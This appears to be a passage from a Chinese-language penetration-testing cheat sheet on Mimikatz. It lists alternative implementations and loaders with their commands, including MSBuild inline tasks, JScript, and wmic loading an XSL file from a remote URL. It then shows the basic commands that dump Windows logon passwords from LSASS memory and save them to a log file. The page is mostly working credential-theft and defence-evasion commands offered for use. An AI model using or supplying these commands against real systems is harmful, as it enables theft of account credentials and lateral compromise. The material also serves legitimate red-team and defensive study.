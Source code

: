 
**辅助项目**
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz) - 纯 Python 的 Mimikatz 实现,Runs on all OS's which support python>=3.6
    ```
    pypykatz lsa minidump lsass.dmp
    ```
- [3gstudent/msbuild-inline-task](https://github.com/3gstudent/msbuild-inline-task) - 利用 MSBuild 执行 Mimikatz
    ```
    cd C:\Windows\Microsoft.NET\Framework64\v4.0.30319
    .\MSBuild.exe 1.xml
    ```
- [Stealthbits/poshkatz](https://github.com/Stealthbits/poshkatz) - PowerShell module for Mimikatz
- [vyrus001/go-mimikatz](https://github.com/vyrus001/go-mimikatz)
- JScript
    - [Instructions-to-mimikatz-js.txt](https://gist.github.com/pljoel/42dae5e56a86a43612bea6961cb59d1a) - JS 加载 Mimikatz
        ```
        cscript mimikatz.js
        ```
    - [xsl版](https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/mimikatz.xsl)
        ```
        wmic os get /format:"mimikatz.xsl"
        wmic os get /FORMAT:"https://example.com/mimikatz.xsl"
        ```
    - [sct版](https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/mimikatz.sct)
- html
    - [Hacking the World with HTML](https://osandamalith.com/2020/07/19/hacking-the-world-with-html/)
    - [OsandaMalith/PE2HTML](https://github.com/OsandaMalith/PE2HTML)
- [Hackndo/lsassy](https://github.com/Hackndo/lsassy)

---

## 基本使用

提权
```bash
privilege::debug    # 获取调试权限
```

抓取密码
```bash
sekurlsa::logonpasswords
```

如果你没有访问 lsass 进程的权限，那你就抓不到密码, 报错如下
```
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

输出
```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir
# 记录 Mimikatz 输出
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
# 输出到 log.txt
```
